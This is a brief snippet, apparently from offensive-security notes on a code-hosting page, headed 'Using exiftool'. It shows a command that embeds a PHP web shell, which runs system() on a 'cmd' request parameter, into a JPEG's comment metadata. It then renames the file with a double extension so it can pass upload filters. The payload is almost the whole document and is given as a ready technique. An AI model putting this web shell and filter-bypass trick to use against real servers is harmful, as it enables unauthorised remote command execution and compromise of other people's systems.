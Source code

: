 ### Using exiftool
      exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' normal.jpg
      mv normal.jpg normal.php.jpg
